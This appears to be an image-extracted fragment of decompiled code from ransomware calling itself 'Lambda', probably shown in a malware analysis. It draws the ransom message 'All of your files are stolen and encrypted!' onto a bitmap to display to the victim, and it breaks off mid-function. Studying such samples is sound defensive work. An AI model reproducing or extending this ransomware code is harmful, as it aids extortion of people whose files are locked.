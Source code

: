 ```
  int cchText; // [esp+1284h] [ebp-Ch]
  int cy; // [esp+1288h] [ebp-8h]
  HKEY phkResult; // [esp+128Ch] [ebp-4h] BYREF

  if ( !Parameter )
  {
    if ( dword_430940 )
    {
      DC = GetDC(0);
      v1 = DC;
      v21 = DC;
      if ( DC )
      {
        CompatibleDC = CreateCompatibleDC(DC);
        v23 = CompatibleDC;
        if ( CompatibleDC )
        {
          phkResult = (HKEY)((GetDeviceCaps(v1, 8) + 1) & 0xFFFFFFFE);
          cy = (GetDeviceCaps(v1, 10) + 1) & 0xFFFFFFFE;
          DeviceCaps = GetDeviceCaps(v1, 88);
          v4 = cy;
          FontW = CreateFontW(6 * (cy / DeviceCaps), 0, 0, 0, 512, 0, 0, 0, 1u, 9u, 0, 3u, 0, L"Arial");
          ho = FontW;
          if ( FontW )
          {
            if ( SelectObject(CompatibleDC, FontW) )
            {
              cchText = wsprintfW(
                          String,
                          L"All of your files are stolen and encrypted!\r\n"
                           "Find LAMBDA_README.txt and follow instructions");
              if ( GetTextExtentPoint32W(CompatibleDC, String, cchText, &psizl) )
              {
                CompatibleBitmap = CreateCompatibleBitmap(CompatibleDC, (int)phkResult, v4);
                hbm = CompatibleBitmap;
                if ( CompatibleBitmap )
                {
                  if ( SelectObject(CompatibleDC, CompatibleBitmap) )
                  {
                    SetTextColor(CompatibleDC, 0xFFFFFFu);
                    SetBkMode(CompatibleDC, 2);
                    SetBkColor(CompatibleDC, 0);
                    rc.left = 0;
                    rc.top = (v4 >> 1) - psizl.cy;
                    rc.right = (LONG)phkResult;
                    rc.bottom = v4;
                    if ( DrawTextW(CompatibleDC, String, cchText, &rc, 0x211u) )
                    {
                      *(_WORD *)&bmi[40] = 19778;
                      NumberOfBytesWritten = 0;
                      v19 = 54;
                      *(_DWORD *)bmi = 40;
                      v7 = 2 * (_DWORD)phkResult * v4;
                      *(_DWORD *)&bmi[4] = phkResult;
                      nNumberOfBytesToWrite = v7;
                      *(_DWORD *)&bmi[42] = v7 + 54;
                      v18 = 0;
                      *(_DWORD *)&bmi[8] = cy;
                      *(_DWORD *)&bmi[12] = 1048577;
                      memset(&bmi[16], 0, 24);
                      v8 = HeapAlloc(hHeap, 8u, v7);
                      cchText = (int)v8;
```